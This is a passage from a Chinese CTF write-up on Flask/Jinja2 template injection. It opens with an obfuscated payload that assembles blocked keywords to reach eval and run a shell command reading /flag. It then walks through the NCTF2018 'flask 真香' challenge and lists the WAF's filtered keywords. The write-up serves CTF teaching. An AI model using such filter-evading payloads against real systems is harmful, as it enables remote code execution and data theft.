 ```
{% set zero = (self|int) %}{% set one = (zero**zero)|int %}{% set two = (zero-one-one)|abs %}{% set four = (two*two)|int %}{% set five = (two*two*two)-one-one-one %}{% set three = five-one-one %}{% set nine = (two*two*two*two-five-one-one) %}{% set seven = (zero-one-one-five)|abs %}{% set space = self|string|min %}{% set point = self|float|string|min %}{% set c = dict(c=aa)|reverse|first %}{% set bfh = self|string|urlencode|first %}{% set bfhc = bfh~c %}{% set slas = bfhc%((four~seven)|int) %}{% set yin = bfhc%((three~nine)|int) %}{% set xhx = bfhc%((nine~five)|int) %}{% set right = bfhc%((four~one)|int) %}{% set left = bfhc%((four~zero)|int) %}{% set but = dict(buil=aa,tins=dd)|join %}{% set imp = dict(imp=aa,ort=dd)|join %}{% set pon = dict(po=aa,pen=dd)|join %}{% set so = dict(o=aa,s=dd)|join %}{% set ca = dict(ca=aa,t=dd)|join %}{% set flg = dict(fl=aa,ag=dd)|join %}{% set ev = dict(ev=aa,al=dd)|join %}{% set red = dict(re=aa,ad=dd)|join %}{% set bul = xhx~xhx~but~xhx~xhx %}{% set ini = dict(ini=aa,t=bb)|join %}{% set glo = dict(glo=aa,bals=bb)|join %}{% set itm = dict(ite=aa,ms=bb)|join %}{% set pld = xhx~xhx~imp~xhx~xhx~left~yin~so~yin~right~point~pon~left~yin~ca~space~slas~flg~yin~right~point~red~left~right %}{% for f,v in (self|attr(xhx~xhx~ini~xhx~xhx)|attr(xhx~xhx~glo~xhx~xhx)|attr(itm))() %}{% if f == bul %}{% for a,b in (v|attr(itm))() %}{% if a == ev %}{{b(pld)}}{% endif %}{% endfor %}{% endif %}{% endfor %}


```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210525174703-28f00652-bd3e-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210525174703-28f00652-bd3e-1.png)

过滤了 request 和 class
-------------------

这里除了用上面中括号或 `|attr()` 那几种方法外，我们还可以利用 flask 里面的 session 对象和 config 对象来逃逸这一姿势。

下面通过 NCTF2018 的两道 flask 题目来仔细讲解。

### [NCTF2018]flask 真香

打开题目一看，是一个炫酷的 demo 演示，这种 demo 一般是没有啥东西好挖的。首先 F12 信息收集，发现 Python 版本是 3.5.2，没有 Web 静态服务器。

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210525174704-299b32fc-bd3e-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210525174704-299b32fc-bd3e-1.png)

随便点开第二个 demo 发现 404 了，这里注意到 404 界面是 Flask 提供的 404 界面，按照以往的经验，猜测这里存在 SSTI 注入。

先尝试简单的 payload：

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210525174705-2a23c158-bd3e-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210525174705-2a23c158-bd3e-1.png)

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210525174706-2aa5caa4-bd3e-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210525174706-2aa5caa4-bd3e-1.png)

从这里可见，毫无疑问的存在 SSTI 漏洞了。

那么就来康康到底有没有 WAF，有的话被过滤了哪些。经过一番测试，确实很多东西都被过滤了，而且是正则表达式直接匹配删去，无法嵌套绕过。不完整测试有以下：

```
config
class
mro
args
request
open
eval
builtins
import


```
